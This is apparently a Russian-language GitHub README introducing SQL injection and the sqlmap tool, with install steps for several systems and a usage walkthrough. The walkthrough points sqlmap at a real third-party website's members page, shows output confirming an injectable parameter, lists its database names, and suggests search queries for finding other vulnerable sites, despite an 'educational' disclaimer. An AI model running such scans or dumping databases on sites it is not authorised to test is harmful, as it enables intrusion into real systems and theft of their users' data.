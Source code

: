 # ДИСКЛАЙМЕР
>Автор не несёт отвественность за ваши действия
Все действия в данной статьи созданы в исключительно ознокамительных целях(Для повышения уровня информационной безопастности),автор никого не побуждает совершать данные действия,все что вы будите делать это сугобо ваша ответственность.

# Предысловие
>Если не умру,буду дальше развивать эту тему

Идея которая пришла мне в голову,<<А почему бы не рассказать об уязвимостях SQL?>>.Поэтому я буду рассказывать о разных уязвимостях SQLInject и также демонстрировать их.Некоторая информация была взята из открытых источников,поэтому некоторые цитаты или словосочитания могу совпадать с некоторыми статьями или с wikipedia.

В папке exaple,будут лежать примеры скриптом связанные с SQL уязвимостями,если кому интересно можете их разобрать а также добавить свои <<Все комментария и замечание я буду читать>>

P.S Спасибо за понимание :>

## Что такое SQLInject?
SQLInject - это способ взлома сайта,работающий с базами данных,основанный на внедрении в запрос произвольного SQL-кода,атаки такого типа могут дать злоумышленнику
доступ к базе данных.

Например:

1.  Доступ к чтению и редактированию файлов 
2.  Внедрение своих скриптов 
3.  Выполнение произвольных команд на атакуемом сервере

Также хотел бы вас познакомить с инструментом **sqlmap**.Их домашняя страница <https://sqlmap.org/>.Мы будем разбирать работу с **sqlmap**,а так же его флаги,чтобы понять как пользоваться инструментом.

### Sqlmap
sqlmap - это инструмент с открытым исходным кодом для тестирования на проникновение, который автоматизирует процесс выявления и эксплуатации уязвимости SQL-инъекця и захват серверов баз данных. Он поставляется с мощным движком выявления и многими нишевыми функциями для конечного тестера на проникновение, имеет широкий набор возможностей, начиная от сбора отпечатков баз данных по полученной от них данным, до доступа к файловой системе и выполнения команд в операционной системе посредством внеполосных (out-of-band) подключений.

В sqlmap находится около 150 флагов,поэтому мы будем их разбирать походу нужды.

*Пример установки:*

1. Для Kali,Debian

На Kali Linux sqlmap установлен по умолчанию,для Debian установка выглядит следующим образом. 

```sh
git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev/
./sqlmap.py --wizard
```

2.  Для Arch,Manjaro

```sh
Sudo pacman -S sqlmap
```
3. Для Windows

Для работы sqlmap нам потребуется python <https://www.python.org/>,там есть две ветви 3.* и 2.* для корректной работы нам нужна версия 2.* (На данный момент доступна версия 2.7.18),заходим на офицальный сайт sqlmap <https://sqlmap.org/> и скачиваем от туда .zip файл.

Теперь переходим в каталог с установленным Python (По дефолту он находится по пути C:\Python27\) и перетаскиваем его в окно командной строки,в командной строке должен появиться полный путь к файлу,после этого дописываем к нему флаг -v.

Если у вас появилась информация о версии Python значит установка прошла нормально.
После проверки открываем новую командную строку,распаковываем наш sqlmap,перетаскиваем файл python.exe в командную строку,ставим пробел и перетаскиваем наш sqlmap.py в командную строку,ставим пробел и пишим флаг -h.Должен получиться такой путь 

```sh
C:\Python27\python.exe C:\Users\User\Downloads\sqlmapproject-sqlmap-6cc092b\sqlmap.py -h
```

#### Пример использования 

Для начала работы с sqlmap нам нужно найти какой либо уязвимый сайт,ссылка сайта которая (возможного!!!) поддерживая уязвимости sqlinject выглядит следующим образом.Такие сайты можно найти по такому поисковому запросу (В будующем я буду пополнять ссылки).

Запрос:
```sh
index.php?id=1
```

Ссылка:
```sh
http://www.asfaa.org/members.php?id=1
```

Флаги которые используются в данном мануале:

```sh
-u URL,                 Целевой хост
-A --random-agent,      Использование значение заголовка User-Agent 
--tables,               Построить список таблиц
```


1. Сканнирование удалённой системы

В качастве примеры мы будем использовать этот сайт.

```sh
http://www.asfaa.org/members.php?id=1
```

Первая команда сканирует удаленную систему, чтобы увидеть, уязвима ли она для внедрения sql, а затем собирает информацию о ней. 


```sh
sqlmap -u http://www.asfaa.org/members.php?id=1 --random-agent
```

Вышеупомянутая первая и самая простая команда.Она проверяет входные параметры,чтобы определить,уязвимо ли она на внедрение sql или нет.Для этого sqlmap отправляет полезные-sql-нагрузки во входные параметры и проверяя выходные данные.

2.  Как мы видим sqlmap нашёл уязвимостей.

```sh
[INFO] testing 'Generic inline queries'
[INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[[INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[INFO] GET parameter 'id' is 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
[INFO] testing 'MySQL inline queries'
[INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[WARNING] time-based comparison requires larger statistical model, please wait.. (done)                                                                                                               
[INFO] testing 'MySQL >= 5.0.12 stacked queries'
[INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

Второй командой мы будем искать таблицы базы,чтобы в дальнейшем смотреть их содержимое))

Запуск команды:

```sh
sqlmap -u http://www.asfaa.org/members.php?id=1 --tables  
```
Видим что есть несколько баз с данными

```sh
[INFO] fetching tables for databases: 'db83231_acolop, db83231_asfaa, information_schema'
```
